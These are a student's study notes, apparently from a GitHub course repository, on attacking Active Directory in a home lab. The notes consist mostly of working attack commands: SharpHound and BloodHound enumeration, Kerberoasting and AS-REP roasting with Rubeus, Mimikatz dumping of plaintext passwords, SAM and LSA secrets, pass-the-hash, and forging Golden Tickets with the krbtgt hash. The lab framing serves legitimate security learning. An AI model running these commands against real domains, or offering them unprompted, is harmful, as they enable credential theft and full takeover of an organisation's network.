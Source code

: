 # 🛡️ Week 06 - Active Directory Hacking Notes

## 📚 Overview:
This week focuses on understanding **Active Directory (AD)** infrastructure, common attack techniques, and practical exploitation within a controlled lab environment. Techniques include Kerberos ticket attacks, credential dumping, and AD enumeration with BloodHound.

---

## 🎯 Learning Objectives:
- Understand the structure and concepts of Active Directory: Domains, Forests, OUs, GPOs, Users.
- Setup a lab environment with Windows Server (DC) and Windows 10 clients.
- Perform Kerberos ticket attacks (Golden Ticket, Pass-the-Hash).
- Enumerate Active Directory environment using BloodHound.
- Dump credentials using Mimikatz.
- Complete TryHackMe: Attacktive Directory room.

---

## 🛠️ Tools Used:
- **BloodHound**
- **Mimikatz**
- **SharpHound**
- **PowerView**
- **TryHackMe**
- **Windows Server 2019** & **Windows 10 VM**
- **Kali Linux 2024.1**

---

## 🖥️ Lab Setup:
- **1x Windows Server 2019** — Domain Controller (pasindu.local)
- **2x Windows 10 Machines** — Domain-joined (users: `student1`, `admin1`)
- **Kali Linux VM** on same network  
→ VirtualBox Host-Only Network (192.168.100.0/24)

---

## 🔍 Key Commands & Usage:

### 📌 BloodHound Data Collection
```powershell
# Run SharpHound binary
.\SharpHound.exe -c All -v --zipfilename loot.zip


### 📌 BloodHound Cypher Queries
// Find all Domain Admins
MATCH (u:User)-[:MemberOf]->(g:Group {name:"DOMAIN ADMINS@PASINDU.LOCAL"}) RETURN u

// Find shortest privilege escalation path from student1 to Domain Admins
MATCH p=shortestPath((n:User {name:'student1@PASINDU.LOCAL'})-[*1..]->(m:Group {name:"DOMAIN ADMINS@PASINDU.LOCAL"})) RETURN p

### 📌 Kerberoasting (SPN ticket hash extraction)
```powershell
# List accounts with SPN values
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```bash
# Use Rubeus to extract Kerberos TGS tickets
Rubeus.exe kerberoast /format:hashcat /outfile:kerberoast_hashes.txt


### 📌 AS-REP Roasting
```powershell
# Find accounts without Kerberos pre-authentication enabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```bash
# Use Rubeus for AS-REP roastable accounts
Rubeus.exe asreproast /outfile:asrep_hashes.txt


### 📌 Credential Dumping with Mimikatz
# Run Mimikatz and enable debug privilege
privilege::debug

# Dump plaintext logon passwords from memory
sekurlsa::logonpasswords

# Dump NTLM hashes from SAM database
lsadump::sam

# Dump Kerberos tickets
sekurlsa::kerberos

### 📌 Pass-the-Hash (PtH) Attack
# Use NTLM hash for authentication and open a privileged shell
sekurlsa::pth /user:Administrator /domain:pasindu.local /ntlm:<NTLMHASH> /run:cmd.exe


### 📌 Golden Ticket Attack
# Dump krbtgt NTLM hash
lsadump::lsa /patch

# Create and inject Golden Ticket
kerberos::golden /user:Administrator /domain:pasindu.local /sid:S-1-5-21-XXX /krbtgt:<KRBTGT_HASH> /id:500 /ptt

# Verify injected ticket
klist





